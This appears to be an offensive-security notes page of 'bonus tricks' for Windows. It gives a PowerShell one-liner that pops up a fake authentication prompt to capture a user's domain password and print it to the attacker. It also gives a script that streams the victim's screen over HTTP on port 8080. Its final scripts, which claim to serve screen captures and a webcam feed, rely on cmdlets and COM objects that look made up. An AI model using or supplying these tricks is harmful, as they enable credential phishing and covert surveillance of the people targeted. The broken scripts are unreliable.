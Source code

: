 # Bonus Tricks

### Keylogger prompt

This is a neat trick that can be used during desperate times. It will spawn a UI prompt that will ask for the user's domain credentials using environment variables to pull the username, then display the password in plaintext to the attacker console. 

From a CMD.exe prompt:

```powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

- from Sektor7 Privilege Escalation course

### Serving Display on HTTP

This script captures the content of the primary screen, converts it to a JPEG image, and serves it over an HTTP web server on port 8080. The script will continuously update the image and serve it as long as the HTTP listener is running.

```
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName System.Drawing

$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add("http://0.0.0.0:8080/")
$listener.Start()

Write-Host "Streaming server is running on http://0.0.0.0:8080/"

while ($listener.IsListening) {
    $context = $listener.GetContext()
    $response = $context.Response

    $stream = $response.OutputStream
    $imageStream = New-Object System.IO.MemoryStream

    $bitmap = New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
    $graphics = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphics.CopyFromScreen([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Location, [System.Drawing.Point]::Empty, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Size)

    $bitmap.Save($imageStream, [System.Drawing.Imaging.ImageFormat]::Jpeg)

    $response.ContentType = "image/jpeg"
    $response.ContentLength64 = $imageStream.Length

    $imageStream.WriteTo($stream)

    $imageStream.Dispose()
    $stream.Dispose()
}

$listener.Stop()

```

`Install-Module -Name WebAdministration`

```
# Import the Windows PowerShell Web Server module
Import-Module WebAdministration

# Define the path to your screen capture files
$screenCapturePath = "C:\Path\To\Screen\Capture"

# Start the screen capture
$job = Start-Process powershell.exe "-command & { Get-ChildItem -Path C:\Path\To\Screen\Capture -Filter '*.jpg' -Recurse | Remove-Item }" -PassThru
$job2 = Start-ScreenCapture -Path $screenCapturePath

# Set up the web server to serve the screen capture
New-WebVirtualDirectory -Site 'Default Web Site' -Name 'ScreenCapture' -PhysicalPath $screenCapturePath
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "enabled" -Value "True"
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "showFlags" -Value "Date, Time, Size, Extension"

# Set the web server to listen on port 8080
Set-ItemProperty -Path "IIS:\Sites\Default Web Site" -Name bindings -Value @{protocol="http";bindingInformation="*:8080:"}

```


## Serving Camera Feed on HTTP

This script does the following:

Imports the Windows PowerShell Web Server module.
Defines the path to your camera feed.
Starts the camera feed using the Windows Media Foundation APIs.
Sets up a virtual directory in the default web site that serves the camera feed.
Enables directory browsing and sets the directory browse flags.
Sets the web server to listen on port 8080.

```
# Import the Windows PowerShell Web Server module
Import-Module WebAdministration

# Define the path to your camera feed
$cameraFeedPath = "C:\Path\To\Camera\Feed"

# Start the camera feed
$mediaSource = New-Object -ComObject 'MFMediaSource'
$mediaSource.OpenDevice("Video", "Integrated Webcam", $null, [System.Guid]::Empty)

# Set up the web server to serve the camera feed
New-WebVirtualDirectory -Site 'Default Web Site' -Name 'CameraFeed' -PhysicalPath $cameraFeedPath
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "enabled" -Value "True"
Set-WebConfigurationProperty -Filter "/system.webServer/directoryBrowse" -Name "showFlags" -Value "Date, Time, Size, Extension"

# Set the web server to listen on port 8080
Set-ItemProperty -Path "IIS:\Sites\Default Web Site" -Name bindings -Value @{protocol="http";bindingInformation="*:8080:"}

```

